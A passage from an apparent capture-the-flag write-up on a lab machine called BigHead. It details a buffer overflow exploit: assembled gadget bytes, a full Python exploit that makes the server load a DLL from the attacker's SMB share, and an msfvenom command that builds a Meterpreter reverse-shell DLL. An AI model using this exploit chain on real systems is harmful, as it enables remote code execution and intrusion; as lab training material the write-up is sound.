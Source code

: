 The exploit uses the same `JMP EAX` gadget to jump to the beginning of the buffer. Then we align the stack, and set `EAX` past the buffer and we push it to the stack: this will contain the address of the string of our SMB server. Finally we move the address of `LoadLibrary` into `EBX` then `CALL EBX` to call the function. The filename argument for `LoadLibrary` is popped from the stack and the DLL is then loaded.

```
nasm > add al, 0x28
00000000  0428              add al,0x28

nasm > push eax
00000000  50                push eax

nasm > mov ebx, 0x62501B58
00000000  BB581B5062        mov ebx,0x62501b58

nasm > call ebx
00000000  FFD3              call ebx
```

The final exploit looks like this:

```python
#!/usr/bin/python
from pwn import *
import binascii

r = remote("10.10.10.112", 80)

load_lib = ""
load_lib += "\x80\x04\x28"         # add ah, 28h
load_lib += "\x50"                 # push eax
load_lib += "\xBB\x58\x1B\x50\x62" # 62501B58 ebx -> LoadLibrary
load_lib += "\xFF\xD3"             # call ebx

smb =  "\\\\10.10.14.23\\share\\x.dll"
load_lib = binascii.hexlify(load_lib)
smb = binascii.hexlify(smb)

jmp_eax = "f2125062"
align_esp = "505C" # push eax, pop esp
buf =  align_esp + load_lib + "90" * 24 + jmp_eax + smb
head = "HEAD /" + buf + " HTTP/1.1\r\n"
head += "Host: dev.bighead.htb\r\n"
head += "Connection: close\r\n"
head += "\r\n"
r.send(head)
r.close()
```

This makes the server download a .dll from my box and execute it. So I can generate a malicious DLL with msfvenom and have the server fetch it to give me a reverse shell:

```
# msfvenom -p windows/meterpreter/reverse_tcp -o x.dll -f dll LHOST=10.10.14.23 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of dll file: 5120 bytes
Saved as: x.dll
```
